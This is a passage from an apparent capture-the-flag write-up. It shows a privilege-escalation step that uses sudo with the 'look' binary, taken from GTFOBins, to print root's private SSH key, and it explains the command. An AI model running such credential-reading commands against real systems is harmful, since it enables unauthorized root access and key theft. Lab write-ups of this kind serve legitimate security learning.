 
to exploit this stage we need to search for what should we do next..
`https://gtfobins.github.io/`


![Screenshot](/assets/img/Lookup/17.png)

```bash
LFILE=/root/.ssh/id_rsa

sudo look '' "$LFILE"
```

```c
**Command Explanation:**

LFILE=/root/.ssh/id_rsa: Sets a variable LFILE with the path to the private SSH key.

sudo look '' "$LFILE":

look: A command that searches for lines in a file that match a given prefix.
sudo look '' "$LFILE": Uses sudo to run look with an empty prefix (''), effectively printing the contents of the file ($LFILE).
Purpose:
This command displays the contents of /root/.ssh/id_rsa (the root user’s private SSH key), potentially allowing unauthorized access if permissions are misconfigured.
```
